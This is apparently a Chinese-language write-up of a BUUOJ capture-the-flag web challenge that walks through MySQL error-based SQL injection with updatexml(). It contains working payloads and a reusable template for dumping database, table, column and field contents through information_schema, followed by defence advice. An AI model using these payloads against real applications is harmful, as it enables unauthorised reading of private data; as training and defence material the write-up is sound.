




题目信息
- 类型：Web / SQL 注入
- 靶场：BUUOJ
- 核心漏洞：报错注入（Error-based SQL Injection）
- 目标：通过报错注入读取数据库中的 flag
漏洞分析
页面存在 SQL 注入点，输入单引号后数据库返回报错信息。通过 updatexml() 函数构造报错，可以将查询结果带出。
利用步骤
1. 确认报错注入
构造 payload 测试报错注入是否可行：
id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23

回显中出现 ~geek~，确认当前数据库名为 geek。
2. 查表名
从 information_schema.tables 中查询当前库的所有表名：
id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23

3. 查列名
锁定目标表后，查询表中的列名：
id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='目标表名'),0x7e),1)%23

4. 读取 flag
拿到列名后，直接查询 flag 字段：
id=1' and updatexml(1,concat(0x7e,(select group_concat(flag) from 目标表名),0x7e),1)%23

updatexml的报错输出有长度限制（约 32 字符），如果 flag 较长，需要用substr()分段读取。
关键 Payload 模板
1' and updatexml(1,concat(0x7e,(select 查询语句),0x7e),1)%23
| 目的 | 查询语句 |
|---|---|
| 数据库名 | database() |
| 表名 | group_concat(table_name) from information_schema.tables where table_schema=database() |
| 列名 | group_concat(column_name) from information_schema.columns where table_name='...' |
| 数据 | group_concat(flag) from ... |
总结
本题是典型的 MySQL 报错注入，核心利用链：
- 单引号闭合原有 SQL 语句
- 利用
updatexml(1, concat(0x7e, payload, 0x7e), 1)构造 XPath 语法错误 - 数据库将子查询结果拼入报错信息回显
- 通过
%23（#）注释掉后面内容，避免语法错误
防御建议：
- 使用参数化查询（Prepared Statements），彻底避免 SQL 注入
- 生产环境关闭数据库报错回显
- 对特殊字符进行转义或过滤
- 最小权限原则，应用数据库账号只赋予必要的查询权限